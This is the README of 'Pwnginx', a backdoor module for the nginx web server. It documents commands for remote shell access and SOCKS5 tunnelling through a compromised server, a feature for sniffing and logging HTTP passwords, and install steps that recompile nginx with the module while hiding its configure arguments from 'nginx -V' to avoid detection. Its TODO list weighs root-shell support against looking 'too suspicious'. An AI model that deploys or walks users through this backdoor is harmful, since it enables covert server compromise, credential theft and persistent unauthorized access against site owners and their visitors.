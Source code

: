 #[ Pwnginx ] - Pwn nginx

Copyleft by t57root @ openwill.me

&lt;t57root@gmail.com>  [www.HackShell.net](http://www.hackshell.net/)

Usage:

Get shell access via the nginx running @ [ip]:[port]

    ./pwnginx shell [ip] [port] [password]

Get a socks5 tunnel listening at [socks5ip]:[socks5port]

    ./pwnginx socks5 [ip] [port] [password] [socks5ip] [socks5port]


###Features:
    
* Remote shell access

* Socks5 tunneling via existing http connection

* Http password sniffing & logging

###INSTALL:

* Compile the client:

    $ cd client;make

* Edit source to hidden configure arguments:

    $ vim src/core/nginx.c
    
    Modify the `configure arguments` line into: `configure arguments: --prefix=/opt/nginx\n");` (original configure arguments shown in the result of `nginx -V`)

* Recompile nginx:

    $ cd /path/to/nginx/source; ./configure --prefix=/opt/nginx --add-module=/path/to/pwnginx/module && make (There is no need to run `make install`)

    $ sudo cp -f objs/nginx /path/to/nginx/sbin/nginx

* Restart nginx

    $ sudo killall nginx && /path/to/nginx/sbin/nginx


###TODO:

* Pack communication traffic into HTTP protocol

* Full pty support

* Shell with root privilege(? There must be another stand-alone 'nginx: master process' running under root to support this function. Maybe that's too suspicious. Being considered.)
